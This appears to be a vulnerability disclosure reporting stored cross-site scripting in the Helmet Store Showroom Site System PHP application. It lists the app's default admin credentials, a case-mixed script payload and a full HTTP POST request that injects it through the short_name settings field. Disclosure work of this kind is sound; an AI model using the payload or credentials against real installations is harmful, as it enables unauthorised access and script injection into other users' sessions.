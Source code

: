 # Helmet Store Showroom Site System - XSS

A vulnerability classified as problematic was found in Helmet Store Showroom Site System. This vulnerability affects $system_info code. The manipulation of the argument /hss/admin/?page=system_info leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin123 ----> {ip}/hss/admin/

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

/classes/Master.php has XSS

> Payload: <sCrIpT>alert(1)</ScRiPt>

XSS because $short_name can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/22.png)

## Payload

```s
POST /CVE/hss/classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: localhost
Content-Length: 2089
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3yij58Dwp8LdWcpx
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/CVE/hss/admin/?page=system_info
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=n2hadqmvc7m63oc6q677vrodfv
Connection: close

------WebKitFormBoundary3yij58Dwp8LdWcpx
Content-Disposition: form-data; name="name"

Helmet Store Showroom - PHP
------WebKitFormBoundary3yij58Dwp8LdWcpx
Content-Disposition: form-data; name="short_name"

HSS - PHP<sCrIpT>alert(1)</ScRiPt>
------WebKitFormBoundary3yij58Dwp8LdWcpx
Content-Disposition: form-data; name="content[about_us]"

<p style="margin-right: 0px; margin-bottom: 15px; margin-left: 0px; padding: 0px;">Lorem ipsum dolor sit amet, consectetur adipiscing elit. Aliquam molestie euismod ultricies. Curabitur placerat aliquam diam, quis volutpat tellus dapibus vel. Suspendisse ac dignissim nisi. Donec ut eros pulvinar, placerat magna et, vulputate ipsum. Sed cursus euismod eros, sed finibus felis molestie vitae. Phasellus fringilla vitae enim in tincidunt. Sed convallis ullamcorper fermentum. Ut accumsan, lectus lacinia blandit dapibus, erat lectus convallis arcu, ut sollicitudin elit sapien non dui. Cras ligula quam, blandit at enim et, consequat molestie enim.</p><p style="margin-right: 0px; margin-bottom: 15px; margin-left: 0px; padding: 0px;">Fusce pellentesque felis vitae erat luctus auctor. Aenean mauris nunc, molestie et mattis nec, luctus vitae quam. Pellentesque elementum ex diam, a molestie quam semper commodo. Quisque lobortis tempor tortor, eget bibendum odio placerat ut. Vestibulum non pellentesque urna. Cras a scelerisque turpis, sit amet pharetra nulla. Sed odio urna, pellentesque vitae luctus consequat, lobortis quis tortor. Praesent lectus arcu, ullamcorper at justo a, tristique vulputate massa. Mauris condimentum sit amet orci id hendrerit.</p>
------WebKitFormBoundary3yij58Dwp8LdWcpx
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary3yij58Dwp8LdWcpx
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary3yij58Dwp8LdWcpx
Content-Disposition: form-data; name="cover"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary3yij58Dwp8LdWcpx--

```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/20.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/19.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/21.png)
